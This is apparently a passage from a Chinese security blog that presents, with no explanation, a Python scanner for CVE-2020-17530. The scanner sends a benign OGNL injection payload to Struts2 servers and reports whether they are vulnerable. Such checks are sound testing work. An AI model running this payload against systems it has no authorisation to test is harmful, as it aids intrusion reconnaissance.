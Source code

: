 漏洞原理我就不说，我把这个`POC`代码直接放出来，自己去看一下，结合复现过程的原理来看代码！

```python
import argparse
import requests
import sys


def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
  .:: ::    .::                   .::                 
.::    .::  .::                   .::          .:::.: 
 .::      .:.: .:.: .:::.::  .::.:.: .: .:::: .:    .:
   .::      .::   .::   .::  .::  .::  .::        .:: 
      .::   .::   .::   .::  .::  .::    .:::   .::   
.::    .::  .::   .::   .::  .::  .::      .::.::     
  .:: ::     .:: .:::     .::.::   .:: .:: .::.:::::::
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```
